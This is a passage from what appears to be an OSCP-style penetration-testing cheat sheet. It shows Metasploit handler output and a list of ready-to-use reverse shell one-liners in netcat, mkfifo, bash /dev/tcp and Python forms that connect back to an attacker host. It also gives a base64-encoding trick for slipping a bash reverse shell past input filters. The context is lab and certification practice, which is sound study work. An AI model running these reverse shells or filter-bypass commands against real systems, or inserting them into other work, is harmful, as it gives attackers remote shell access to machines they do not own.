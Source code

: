 ```sh

msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 0.0.0.0:4445
```

### 4.2. Various reverse shells

Ref: <https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux>

#### Netcat Traditional

```sh
nc -e /bin/sh $KALI 4444
```

#### Netcat OpenBSD

```sh
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $KALI 4444 >/tmp/f
```

#### Netcat BusyBox

```sh
rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc $KALI 4444 >/tmp/f
```

#### Bash

```sh
bash -i >& /dev/tcp/$KALI/4444 0>&1
```

> [!Tip]
> 
> **base64 encode/decode** can be useful to bypass restricted interfaces that filter out characters like `/` (examples: [djinn:1](https://github.com/joetanx/oscp/blob/main/vulnhub/djinn-1.md), [bob](https://github.com/joetanx/oscp/blob/main/vulnhub/bob.md))
> 
> 1. **base64 encode** on Kali: `echo 'bash -i >& /dev/tcp/192.168.17.10/4444 0>&1' | base64` to get `YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3LjEwLzQ0NDQgMD4mMQo=`
> 2. **base64 decode** and run on target: `echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3LjEwLzQ0NDQgMD4mMQo=' | base64 -d | bash`

#### Python

Used in: [digitalworld.local:JOY](https://github.com/joetanx/oscp/blob/main/vulnhub/digitalworld.local-joy.md), [LEFTTURN](https://github.com/joetanx/oscp/blob/main/pwk-lab/leftturn.md)

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$KALI",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

